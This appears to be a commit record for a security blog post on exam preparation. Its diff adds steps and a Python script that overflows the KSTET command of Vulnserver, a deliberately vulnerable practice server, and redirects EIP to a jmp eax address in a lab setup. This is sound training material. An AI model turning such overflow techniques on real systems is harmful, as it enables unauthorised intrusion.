

Before and after one commit to br-sn/br-sn.github.io, a Jekyll site: the page built from _posts/2020-07-04-OSCE-Prep-Vulnserver-KSTET-Win32-API.md, in a window 1280 px wide and 1400 px high, scrolled down 1691 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2145 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2020-07-04-OSCE-Prep-Vulnserver-KSTET-Win32-API.md

````diff
--- a/_posts/2020-07-04-OSCE-Prep-Vulnserver-KSTET-Win32-API.md
+++ b/_posts/2020-07-04-OSCE-Prep-Vulnserver-KSTET-Win32-API.md
@@ -6,7 +6,7 @@ categories: [OSCE]
 
 While preparing for my upcoming OSCE exam I have spent many hours exploiting Vulnserver's various vulnerable functions in different ways. In this post, I wanted to highlight a technique I first came across on a Hack The Box write-up of the BigHead vulnerable machine by mislusnys, which can be found [here](http://mislusnys.github.io/post/htb-bighead/). All credit for this technique goes to them, I am merely using it to exploit a similarly small buffer space without making use of an egghunter or re-using sockets.
 
-
+The below steps were performed on a Windows Vista 6.0 workstation using OllyDbg.
 
 ### Win32 API One-liners
 
@@ -30,7 +30,6 @@ Luckily, the lpLibFileName can be any resolvable path in Windows - including net
 
 I'll skip the fuzzing of the KSTET function in vulnserver as there's plenty of write-ups on this subject already. For the purpose of this post we'll assume we know the offsets for EIP and will use the following skeleton exploit to start:
 ```python
-
 #!/usr/bin/python
 
 import sys
@@ -48,3 +47,31 @@ s.send(buf)
 print s.recv(1024)
 s.close()
 ```
+
+If we run the above script, EIP will be overwritten by our 4 B's. We also notice EAX points to the start of our buffer:
+![eax buffer](/images/eax-buffer.png)
+
+We'll replace the B's with a `jmp eax` instruction to land straight into our buffer. We find one in the main vulnserv module (vulnserver.exe) at `0040100C`. We can avoid the null byte by performing a three-byte overwrite of EIP. Our exploit now looks as follows:
+
+```python
+#!/usr/bin/python
+
+import sys
+import socket
+
+buf = "KSTET "
+buf += "A"*70
+buf += "\x0C\x10\x40" #eip
+
+s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+s.connect(("192.168.0.12",9999))
+print s.recv(1024)
+s.send(buf)
+print s.recv(1024)
+s.close()
+```
+If we set a breakpoint on `0040100C` and run our exploit, we'll see our EIP overwrite is succesful and we are now directed straight into our buffer:
+
+![successful landing](/images/intothebufferwego.png)
+
+The first instructions we encounter are the 'KSTET ' command, including the space. Lucky for us these are not detrimental to our execution and we can easily step through until we reach our buffer of `A`'s.
````
